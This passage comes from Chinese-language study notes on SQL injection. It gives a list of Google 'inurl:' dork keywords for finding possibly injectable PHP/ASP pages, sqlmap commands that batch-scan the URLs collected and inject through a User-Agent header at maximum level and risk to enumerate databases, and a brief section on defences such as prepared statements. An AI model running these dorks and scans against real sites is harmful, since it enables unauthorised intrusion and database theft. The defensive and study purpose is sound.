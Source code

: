 以下是搜集的关键词列表，在查找SQL注入时可以在等号后面添加任意数字构造关键词进行搜索。

```
inurl:Offer.php?id=
inurl:Opinions.php?id=
inurl:Page.php?id=
inurl:Pop.php?id=
inurl:Post.php?id=
inurl:Prod info.php?id=
inurl:Product-item.php?id=
inurl:Product.php?id=
inurl:Product ranges view.php?ID=inurl:Productdetail.php?id=
inurl:Productinfo.php?id=
inurl:Produit.php?id=
inurl:Profile view.php?id=
inurl:Publications.php?id=
inurl:Stray-Questions-View.php?num=
inurl:aboutbook.php?id=
inurl:ages.php?id=
inurl:announce.php?id=
inurl:art.php?idm=
inurl:article.php?ID=
inurl:articleshow.asp?articleid=任意数字inurl:artikelinfo.php?id=
inurl:asp
inurl:asp?id=
inurl:avd startphp?avd=inurl:band info.php?id=inurl:buy.php?category=inurl:category.php?id=inurl:channel id=
```

结合谷歌语句搜索，我们换一种方法，可以将通过谷歌搜索到的可能含有SQL注入的URL保存为TXT文件，

![](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230902153313366.png)

然后使用SQLmap进行批量检测，命令如下：

   sqlmap.py -m c:/1.txt --batch

### 1.10  UA注入

burpsuite抓取网站

将抓取到的内容放到txt里，在user-agent行末加个星号*，再放到kali的/root目录下

sqlmap -r bp.txt --batch --level 5 --risk 3 --threads 10 --time-sec=2 --dbs





### 1.11防御

1-对用户输入的内容进行**转义** (PHP中addslashes()、mysgl_real_escape()函数)

2-限制关键字的输入 (PHP中preg replace()函数正则替换关键字) ，限制输入的**长度**

3-使用SOL语句**预处理**，对SOL语句首先进行预编译，然后进行参数绑定，最后传入参数

4-部署防护墙和软硬WAF
